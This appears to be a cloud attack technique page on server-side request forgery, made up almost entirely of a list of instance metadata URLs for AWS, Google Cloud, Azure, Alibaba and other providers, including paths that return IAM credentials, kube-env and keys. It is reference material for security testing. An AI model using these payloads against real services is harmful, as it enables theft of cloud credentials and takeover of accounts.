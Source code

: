 # Gain Cloud Metadate by SSRF

---
* **ID**: T1701
* **Tactic**: Initial Access
* **Platform**: AWS、Azure、Google、Alibaba Cloud
* **Required Permissions**: User
* **Data Sources**: Cloud local metadata

---

# Description

# Examples

## AWS 
### Amazon Web Services (No Header Required)
### from http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories
* http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
* http://169.254.169.254/latest/user-data
* http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
* http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
* http://169.254.169.254/latest/meta-data/ami-id
* http://169.254.169.254/latest/meta-data/reservation-id
* http://169.254.169.254/latest/meta-data/hostname
* http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
* http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

### ECS Task: https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html
* http://169.254.170.2/v2/credentials/

## Google Cloud (Header Sometimes Required)
###  https://cloud.google.com/compute/docs/metadata
###  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True" on API v1
###  - Most endpoints can be accessed via the v1beta API without a header
* http://169.254.169.254/computeMetadata/v1/
* http://metadata.google.internal/computeMetadata/v1/
* http://metadata/computeMetadata/v1/
* http://metadata.google.internal/computeMetadata/v1/instance/hostname
* http://metadata.google.internal/computeMetadata/v1/instance/id
* http://metadata.google.internal/computeMetadata/v1/project/project-id

### kube-env; thanks to JackMc for the heads up on this (https://hackerone.com/reports/341876)
* http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env
### Google allows recursive pulls 
* http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
### returns root password for Google
* http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

## Digital Ocean (No Header Required)
### https://developers.digitalocean.com/documentation/metadata/
* http://169.254.169.254/metadata/v1.json
* http://169.254.169.254/metadata/v1/ 
* http://169.254.169.254/metadata/v1/id
* http://169.254.169.254/metadata/v1/user-data
* http://169.254.169.254/metadata/v1/hostname
* http://169.254.169.254/metadata/v1/region
* http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

### Packetcloud
* https://metadata.packet.net/userdata

## Azure (Header Required)
### Header: "Metadata: true"
### https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
### (Old: ) https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
* http://169.254.169.254/metadata/instance?api-version=2017-04-02
* http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

## Oracle Cloud (No Header Required)
### https://docs.us-phoenix-1.oraclecloud.com/Content/Compute/Tasks/gettingmetadata.htm
* http://169.254.169.254/opc/v1/instance/

## Alibaba
### https://www.alibabacloud.com/help/faq-detail/49122.htm
* http://100.100.100.200/latest/meta-data/
* http://100.100.100.200/latest/meta-data/instance-id
* http://100.100.100.200/latest/meta-data/image-id

## OpenStack/RackSpace 
### https://docs.openstack.org/nova/latest/user/metadata-service.html
* http://169.254.169.254/openstack	 

## Oracle Cloud
### https://docs.oracle.com/en/cloud/iaas/compute-iaas-cloud/stcsg/retrieving-instance-metadata.html
* http://192.0.0.192/latest/
* http://192.0.0.192/latest/user-data/
* http://192.0.0.192/latest/meta-data/
* http://192.0.0.192/latest/attributes/

## Kubernetes
### Debug Services (https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/)
* https://kubernetes.default.svc.cluster.local
* https://kubernetes.default

# Mitigation

# Detection

# References

* http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
* http://docs.openstack.org/admin-guide-cloud/content/section_metadata-service.html
* https://gist.github.com/BuffaloWill/fa96693af67e3a3dd3fb
* https://www.notsosecure.com/exploiting-ssrf-in-aws-elastic-beanstalk/
* https://hackerone.com/reports/401136
